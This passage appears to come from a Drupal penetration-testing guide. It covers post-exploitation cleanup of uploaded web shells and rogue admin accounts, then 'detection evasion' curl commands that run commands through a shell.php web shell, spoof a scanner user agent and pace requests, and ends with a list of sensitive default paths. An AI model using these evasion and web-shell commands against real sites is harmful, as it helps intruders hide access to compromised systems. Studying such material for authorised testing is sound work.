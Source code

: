 ### Post-Exploitation Cleanup

#### Files to Remove
```bash
# Web shells uploaded
/modules/captcha/shell.php
/sites/default/files/shell.php
/shell.php

# Modified legitimate modules
# Restore original module files

# Created content nodes
# Delete test pages with PHP code
```

#### Administrative Changes
```bash
# Disable PHP Filter module (if enabled)
# Remove created admin accounts
# Clear Drupal cache
# Review user permissions
```

### Detection Evasion
```bash
# Randomized parameters
curl http://target.com/shell.php?randomhash$(date +%s)=id

# User agent rotation
curl -H "User-Agent: Drupal-Security-Scanner" http://target.com

# Request timing
for i in {1..5}; do curl http://target.com/admin/; sleep 3; done
```

### Common Default Paths
```bash
# Administrative interfaces
/admin
/admin/config
/admin/modules
/admin/people

# Content management
/node/add
/admin/content
/admin/structure

# Configuration files
/sites/default/settings.php
/sites/default/default.settings.php
/sites/all/modules/
/core/modules/

# Log and cache directories
/sites/default/files/
/sites/default/private/
/tmp/
```

This comprehensive guide provides a systematic approach to web application enumeration, combining manual techniques with automated tools to ensure thorough coverage of the attack surface.
